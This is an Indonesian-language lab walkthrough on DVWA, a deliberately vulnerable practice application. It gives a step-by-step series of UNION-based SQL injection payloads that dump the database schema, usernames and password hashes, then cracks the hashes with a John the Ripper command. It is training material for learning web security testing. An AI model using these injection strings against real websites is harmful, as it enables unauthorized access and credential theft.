

# DVWA | Lesson 6
## Konfigurasi

###{ Manual SQL injection, John the Ripper}

## penjelasan
kali ini kita akan mencoba mendapatkan username dan password yang ada di dalam suatu database

pada lesson 6, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`

## Skenario

- start metasploit dan backtrack yang sudah dikonfigurasi
- login ke dalam DVWA lewat firefox di backtrack

- setting DVWA security low

# Mencoba SQL Injection Manual
1. injeksi basic
- masukkan `$getid = "SELECT first_name, last_name FROM users WHERE user_id = '$id'";`
- klik submit
- disini kita mendapatkan username admin

2. always true scenario
- masukkan 
    `%' or '0'='0`
- klik submit
- hasil : 

3. versi database
- masukkan 
    `%' or 0=0 union select null, version() #`
- klik submit

4. menampilkan database user
- masukkan 
    `%' or 0=0 union select null, user() #`
- klik submit

5. menampilkan nama database
- masukkan 
    `%' or 0=0 union select null, database() #`
- klik submit

6. menampilkan semua tabel yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables #`
- klik submit

7. menampilkan semua user yang ada pada tabel information_schema
- masukkan
    `%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#`
- klik submit

8. menampilkan semua fields column yang ada pada tabel information_Schema
- masukkan 
    `%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #`
- klik submit

9. menampilkan semua isi content dari kolom yang ada pada information_schema
- masukkan
    `%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #`
- klik submit

- copy + paste semua user dan password yang ada
- paste di note 
- simpan dalam file .txt pada folder john
    -> pentest -> passwords -> john

## Hasil
-  sekarang kita akan mencoba dekripsi hash password yang telah kita simpan pada note
- masuk ke folder /pentest/passwords/john
- masukkan command 
    ` ./john --format=raw-MD5 dvwa_password.txt`

- username dan password berhasil didapatkan